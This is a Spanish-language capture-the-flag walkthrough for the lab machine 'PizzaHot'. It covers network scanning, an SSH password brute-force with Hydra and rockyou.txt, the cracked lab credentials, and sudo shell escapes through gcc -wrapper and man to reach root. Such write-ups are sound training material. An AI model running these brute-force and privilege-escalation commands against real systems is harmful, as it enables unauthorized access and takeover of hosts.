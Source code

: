# PizzaHot

Maquinas que vamos a utilizar Kali Linux y PizzaHot [https://thehackerslabs.com/pizzahot/](https://thehackerslabs.com/pizzahot/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%20129.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=1000 -n -vvv -Pn 10.0.3.33
```

![image.png](./imagenes/image%20130.png)

- Vamos a ver lo que corre por el puerto 80 en el explorador web
    
    ![image.png](./imagenes/image%20131.png)
    
- Miramos el código base
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%20132.png)
    
    Nos encontramos un comentario curioso que puede ser una pista de un nombre de usuario **“pizzapiña”.**
    
- Probamos un ataque con Hydra a SSH con el posible usuario encontrado.
    
    ```bash
    hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.33
    ```
    
    ![image.png](./imagenes/image%20133.png)
    
    Tenemos el usuario y la contraseña de SSH. **login: pizzapiña   password: steven.**
    
- Probamos las credenciales de SSH.
    
    ```bash
    ssh pizzapiña@10.0.3.33 
    ```
    
    ![image.png](./imagenes/image%20134.png)
    

- Hacemos un listado de privilegios con **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20135.png)
    
    Vemos que el usuario pizzassinpiña tiene permisos de ejecución de gcc
    
- Utilizamos la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ver si tiene vulnerabilidades **/usr/bin/gcc** .
    
    ![image.png](./imagenes/image%20136.png)
    
    `sudo gcc -wrapper /bin/sh,-s .`
    
    Nos quedaría así el comando:  `sudo -u pizzasinpiña /usr/bin/gcc -wrapper /bin/sh,-s .`
    

- Lo probamos
    
    `sudo -u pizzasinpiña /usr/bin/gcc -wrapper /bin/sh,-s .`
    
    `whoami`
    
    ![image.png](./imagenes/image%20137.png)
    
- Volvemos a listar privilegios **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20138.png)
    
- Miramos **man** en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%20139.png)
    
- Vamos a probarlo
    
    `sudo -u root man man` 
    
    `!/bin/sh`
    
    `whoami`
    
    ![image.png](./imagenes/image%20140.png)
    
    ![image.png](./imagenes/image%20141.png)
    
    ![image.png](./imagenes/image%20142.png)
  
